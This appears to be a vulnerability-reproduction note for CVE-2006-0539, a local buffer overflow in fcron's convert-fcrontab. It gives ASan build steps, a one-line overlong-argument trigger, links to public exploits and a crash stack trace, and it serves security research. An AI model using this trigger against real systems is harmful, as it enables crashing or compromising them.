 # CVE-2006-0539

## Experiment Environment

Ubuntu 8.10

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2006-0539/fcron-3.0.0.src.tar.gz
tar -xvf fcron-3.0.0.src.tar.gz
cp configure ./fcron-3.0.0
cd fcron-3.0.0
sudo apt-get install sendmail
sudo mkdir /var/spool/fcron
CC=~/ASAN--/llvm-4.0.0-project/ASan--Build/bin/clang CXX=~/ASAN--/llvm-4.0.0-project/ASan--Build/bin/clang++ CFLAGS="-fsanitize=address -g" CXXFLAGS="-fsanitize=address -g" ./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./convert-fcrontab `perl -e 'print "pi3"x600'`
```

## PoCs

[Fcron Convert-FCronTab Local Buffer Overflow Vulnerability](https://www.securityfocus.com/bid/16467/exploit)

[Fcron 3.0 - Convert-FCronTab Local Buffer Overflow](https://www.exploit-db.com/exploits/27159/)

## Vulnerability Patch

### Root Cause

See [Fcron (convert-fcrontab) allow users to corruption on heap section.](https://www.securityfocus.com/archive/1/archive/1/423697/100/0/threaded) for details.

### Stack Trace

```
......
#9 0x40111caf in syslog () from /lib/libc.so.6
#10 0x0804a5d8 in log_syslog_str (priority=3, msg=0x804ee08 "Could not read ", 'A' <repeats 146 times>, " (truncated)")
at log.c:102
#11 0x0804a739 in log_e (priority=3, fmt=0x804abcf "Could not read %s", args=0xbffff014 "ĐČ\004\bpz\006@0l\001@áŘ")
at log.c:165
#12 0x0804a90c in die_e (fmt=0x804abcf "Could not read %s") at log.c:339
#13 0x0804923a in convert_file (file_name=0x804c8d0 'A' <repeats 200 times>...) at convert-fcrontab.c:153
#14 0x0804936d in main (argc=134523688, argv=0xbffff677) at convert-fcrontab.c:276
```

### Patch

## References
